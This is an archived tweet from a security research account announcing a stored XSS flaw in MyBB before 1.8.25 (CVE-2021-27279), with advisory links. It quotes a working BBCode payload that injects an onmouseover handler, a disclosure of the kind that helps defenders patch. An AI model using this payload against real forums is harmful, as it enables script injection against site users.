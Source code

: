 
---

# ptswarm
**https://twitter.com/ptswarm/status/1468213521666260994 _at 2021-12-07, 13:39:16_**
<blockquote>
🎁 PoC for a stored XSS in MyBB &lt; 1.8.25 (CVE-2021-27279). The vulnerability was found by our researcher Igor Sak-Sakovskiy.

Payload: [email]a@a.a?[email=a@a.a? onmouseover=alert(1) a]a[/email][/email]

Advisory: https://t.co/i7v9mTie2p https://t.co/eHodNO7KZn
</blockquote>

* https://github.com/mybb/mybb/security/advisories/GHSA-6483-hcpp-p75w

<table><tr>
<td><img src="pictures/70a055a4780e1376d9b7f1913d073eaa3bae041d6590f1917b6da9249d768bfb.jpg" alt="70a055a4780e1376d9b7f1913d073eaa3bae041d6590f1917b6da9249d768bfb.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>68</code></td>
<td>Favorites: <code>197</code></td>
</tr></table>

---
